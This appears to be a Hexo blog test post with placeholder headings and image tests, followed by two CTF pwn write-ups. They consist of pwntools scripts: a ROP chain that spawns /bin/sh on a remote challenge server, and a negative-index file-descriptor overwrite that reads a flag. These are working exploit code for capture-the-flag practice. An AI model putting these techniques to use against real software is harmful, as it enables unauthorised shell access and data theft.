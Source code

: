 ```yaml
---
title: test
date: 2025-07-24 19:19:42
tags: test
categories:
    - 教學
keywords:
    - hexo
    - blog
    - 部落格
    - github
description: "這是一則關於文章的簡要說明"
---
```


# test1

## test2

### test3

-   img
    <!-- ![image1](./test/frostbean_thinking.jpg)
    ![image2](test/frostbean_thinking.jpg) -->
    ![image3](frostbean_thinking.jpg)
    <!-- ![image2](frostbean_thinking.jpg) -->

### gadgethunter writeup

```python
from pwn import *

# con = process("./gadgethunter")
con = remote("ctf.adl.tw", 10004)

buf_addr = 0x4c6170
# buf = b'/bin/bash\x00'
pop_rdi = 0x0000000000401ebf # : pop rdi ; ret
pop_rsi = 0x0000000000409eee # : pop rsi ; ret
pop_rax_rdx_rbx = 0x0000000000485c0a #: pop rax ; pop rdx ; pop rbx ; ret
bin_bash = 0x7fffffffdb60 #0x7ffeded74890
pop_rsp = 0x000000000040231e #: pop rsp ; ret
syscall = 0x0000000000401c74 # : syscall
add_al_11_mov_rax8_rdx = 0x00000000004520a1 #: adc al, 0x11 ; mov qword ptr [rax + 8], rdx ; ret
payload = b'a'*40 + p64(pop_rax_rdx_rbx) + p64(0x4c6157) +b'/bin/sh\x00' + \
p64(0x0) + p64(add_al_11_mov_rax8_rdx) + p64(pop_rax_rdx_rbx) + p64(0x3b) + \
p64(0x0) + p64(0x0) + p64(pop_rsi) + p64(0x0) + p64(pop_rdi) + p64(buf_addr) + \
p64(syscall)

con.recvuntil(b'message:\n')
raw_input()
con.sendline(payload)
# sleep(0.1)
# con.sendline(buf)

con.interactive()
con.close()
```
### open_book_exam writeup
```python
from pwn import *

# c = process("./open_book_exam")
c = remote("ctf.adl.tw", 10006)
book_fd  = 0x104010
question = 0x104050
cur_book = 0x104060

# idx = (book_fd-question)//4 + 1

# open book
c.recvuntil(b'> ')
c.sendline(b'1')
# open flag
c.recvuntil(b'> ')
c.sendline(b'5')

# open book
c.recvuntil(b'> ')
c.sendline(b'1')
# open chinese
c.recvuntil(b'> ')
c.sendline(b'1')

fd = 3
# write book
c.recvuntil(b'> ')
c.sendline(b'3')
# write fd
c.recvuntil(b'> ')
c.sendline(b'-15')
c.recvuntil(b'ans: ')
c.sendline(str(fd).encode())
fd+=1
# read book
c.recvuntil(b'> ')
c.sendline(b'2')

print(c.recvlines(3)[2])

# c.interactive()
c.close()
```
<!-- :::info
it's info
:::

:::danger
it's danger
::: -->
